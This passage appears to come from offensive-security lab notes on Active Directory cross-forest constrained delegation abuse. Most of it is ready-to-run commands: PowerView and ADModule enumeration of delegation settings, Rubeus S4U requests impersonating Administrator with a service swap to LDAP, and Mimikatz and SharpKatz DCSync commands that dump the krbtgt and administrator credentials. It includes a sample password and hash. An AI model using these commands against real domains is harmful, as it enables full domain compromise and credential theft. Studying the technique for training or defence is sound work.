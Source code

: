 * EA in one Forest



## Cross Forest - Constrained Delegation with Protocol Transition

### Description

* The classic Constrained Delegation does not work across forest trusts.
* But we can abuse it once we have a beachhead/foothold across forest trust. If we have a User in the target forest, we can attack it!

{% code overflow="wrap" %}
```powershell
Get-DomainUser –TrustedToAuth -Domain eu.local      //eu.local is the trusted/target forest
Get-DomainComputer –TrustedToAuth -Domain eu.local

ADModule
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} - Properties msDS-AllowedToDelegateTo -Server eu.local
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} - Properties msDS-AllowedToDelegateTo -Server eu.local | Select msDS-AllowedToDelegateTo -expandproperty msDS-AllowedToDelegateTo
```
{% endcode %}

Request an alternative ticket using Ruebeus

{% code overflow="wrap" %}
```powershell
If we have a Password of a User first get the hash
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@2019 /user:storagesvc /domain:eu.local

C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC
/impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eudc.eu.local /ptt
Altservice can be choosen as wished
```
{% endcode %}

Abuse the TGS to LDAP to do a dcsync

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\krbtgt /domain:eu.local"' 

C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\administrator --Domain eu.local --DomainController eu-dc.eu.local 
```
{% endcode %}



## Cross Forest - Unconstrained Delegation
